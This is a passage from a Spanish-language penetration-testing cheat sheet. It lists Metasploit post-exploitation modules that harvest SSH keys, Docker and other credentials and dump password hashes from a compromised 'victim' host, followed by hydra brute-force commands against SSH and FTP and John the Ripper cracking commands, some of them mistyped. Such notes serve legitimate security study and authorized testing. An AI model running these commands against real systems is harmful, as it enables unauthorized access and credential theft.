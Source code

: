### Dumping Hashes con Hashdump

**IMPORTANTE**: Para poder utilizar estos modulos, es necesario tener una sesión establecida en la máquina victima.

- post/multi/gather/ssh_creds
- post/multi/gather/docker_creds
- post/linux/gather/hashdump
- post/linux/gather/ecryptfs_creds
- post/linux/gather/enum_psk
- post/linux/gather/enum_xchat
- post/linux/gather/phpmyadmin_credsteal
- post/linux/gather/pptpd_chap_secrets
- post/linux/manage/sshkey_persistence

---

## Fuerza bruta

### `hydra`

```bash
$ hydra -L <LIST OF USERNAMES> -P <LIST OF PASSWORDS> <TARGET> <SERVICE> -s <PORT>
```

```bash
 hydra -l <USERNAME> -P <LIST OF PASSWORDS> <TARGET> <SERVICE> -s <PORT>
```

#### Fuerza bruta al protocolo SSH

```bash
$ hydra -L users.txt -P passwords.txt 192.168.1.10 ssh
$ hydra -L users.txt -P passwords.txt ssh://192.168.1.10
```

#### Fuerza bruta al protocolo FTP

```bash
$ hydra -l admin -P passwords.txt 192.168.1.4 ftp
$ hydra -l admin -P passwords.txt ftp://192.168.1.10
```

### John The Ripper (`jhon`)

```bash
$ unshadow passwd shadow > hash                         # Primero, preparamos un archivo para que John lo descifre:
$ john --wordlist-/usr/share/wordlists/rockyou.txt hash # Crack the passwords
```

```bash
$ john --format=sha512crypt --wordlist-/usr/share/wordlists/rockyou.txt hashes.txt
```

#### NTLM hashes
